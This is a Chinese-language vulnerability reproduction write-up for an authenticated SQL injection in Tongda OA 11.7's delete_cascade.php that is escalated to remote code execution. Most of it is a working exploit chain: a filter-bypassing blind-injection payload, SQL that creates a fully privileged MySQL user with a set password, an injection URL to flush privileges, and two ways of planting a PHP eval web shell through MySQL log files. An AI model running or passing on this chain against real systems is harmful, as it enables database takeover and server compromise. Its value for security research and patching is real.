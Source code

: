 通达oa 11.7 后台sql注入漏洞&rce
===============================

一、漏洞简介
------------

### 利用条件：

需要登陆后台

二、漏洞影响
------------

通达oa 11.7

三、复现过程
------------

注入出现在`general/hr/manage/query/delete_cascade.php`文件中，代码实现如下：

![1.png](./resource/通达oa11.7后台sql注入漏洞&rce/media/rId25.png)

首先判断`$condition_cascade`是否为空，如果不为空，则将其中的\'替换为\'。为什么要这样替换呢，主要是因为V11.7版本中，注册变量时考虑了安全问题，将用户输入的字符用addslashes函数进行保护，如下：

`inc/common.inc.php`代码

![2.png](./resource/通达oa11.7后台sql注入漏洞&rce/media/rId26.png)

因为是无回显机制，是盲注，所以尝试(select 1 from (select
sleep(5))a)，结果没那么简单：

![3.png](./resource/通达oa11.7后台sql注入漏洞&rce/media/rId27.png)

触发了通达OA的过滤机制，翻看代码，在`inc/conn.php`文件中找到过滤机制如下:

![4.png](./resource/通达oa11.7后台sql注入漏洞&rce/media/rId28.png)

其过滤了一些字符，但是并非无法绕过，盲注的核心是：substr、if等函数，均未被过滤，所以还是有机会的。

传入错误的SQL语句时，页面出错：

![5.png](./resource/通达oa11.7后台sql注入漏洞&rce/media/rId29.png)

那么只要构造MySQL报错即可配合if函数进行盲注了，翻看局外人师傅在补天白帽大会上的分享，发现`power(9999,99)`也可以使数据库报错，所以构造语句：

    select if((substr(user(),1,1)='r'),1,power(9999,99)) # 当字符相等时，不报错，错误时报错

![6.png](./resource/通达oa11.7后台sql注入漏洞&rce/media/rId30.png)

![7.png](./resource/通达oa11.7后台sql注入漏洞&rce/media/rId31.png)

### 构造利用链

> 添加用户：

    grant all privileges ON mysql.* TO 'at666'@'%' IDENTIFIED BY 'abcABC@123' WITH GRANT OPTION

![8.png](./resource/通达oa11.7后台sql注入漏洞&rce/media/rId33.png)

![9.png](./resource/通达oa11.7后台sql注入漏洞&rce/media/rId34.png)

然后该用户是对mysql数据库拥有所有权限的,然后给自己加权限：

    UPDATE `mysql`.`user` SET `Password` = '*DE0742FA79F6754E99FDB9C8D2911226A5A9051D', `Select_priv` = 'Y', `Insert_priv` = 'Y', `Update_priv` = 'Y', `Delete_priv` = 'Y', `Create_priv` = 'Y', `Drop_priv` = 'Y', `Reload_priv` = 'Y', `Shutdown_priv` = 'Y', `Process_priv` = 'Y', `File_priv` = 'Y', `Grant_priv` = 'Y', `References_priv` = 'Y', `Index_priv` = 'Y', `Alter_priv` = 'Y', `Show_db_priv` = 'Y', `Super_priv` = 'Y', `Create_tmp_table_priv` = 'Y', `Lock_tables_priv` = 'Y', `Execute_priv` = 'Y', `Repl_slave_priv` = 'Y', `Repl_client_priv` = 'Y', `Create_view_priv` = 'Y', `Show_view_priv` = 'Y', `Create_routine_priv` = 'Y', `Alter_routine_priv` = 'Y', `Create_user_priv` = 'Y', `Event_priv` = 'Y', `Trigger_priv` = 'Y', `Create_tablespace_priv` = 'Y', `ssl_type` = '', `ssl_cipher` = '', `x509_issuer` = '', `x509_subject` = '', `max_questions` = 0, `max_updates` = 0, `max_connections` = 0, `max_user_connections` = 0, `plugin` = 'mysql_native_password', `authentication_string` = '', `password_expired` = 'Y' WHERE `Host` = Cast('%' AS Binary(1)) AND `User` = Cast('at666' AS Binary(5));

![10.png](./resource/通达oa11.7后台sql注入漏洞&rce/media/rId35.png)

然后用注入点刷新权限，因为该用户是没有刷新权限的权限的：`general/hr/manage/query/delete_cascade.php?condition_cascade=flush privileges;`这样就拥有了所有权限。再次登录：

![11.png](./resource/通达oa11.7后台sql注入漏洞&rce/media/rId36.png)

提示这个，或者让改密码死活改不了。再执行一下

    grant all privileges ON mysql.* TO 'at666'@'%' IDENTIFIED BY 'abcABC@123' WITH GRANT OPTION

![12.png](./resource/通达oa11.7后台sql注入漏洞&rce/media/rId37.png)

### 写shell

    # 查路径：
    select @@basedir; # c:\td0a117\mysql5\，那么web目录就是c:\td0a117\webroot    # 方法1：
    set global slow_query_log=on;
    set global slow_query_log_file='C:/td0a117/webroot/tony.php';
    select '<?php eval($_POST[x]);?>' or sleep(11);
    # 方法2：
    set global general_log = on;
    set global general_log_file = 'C:/td0a117/webroot/tony2.php';
    select '<?php eval($_POST[x]);?>';
    show variables like '%general%';

![13.png](./resource/通达oa11.7后台sql注入漏洞&rce/media/rId39.png)
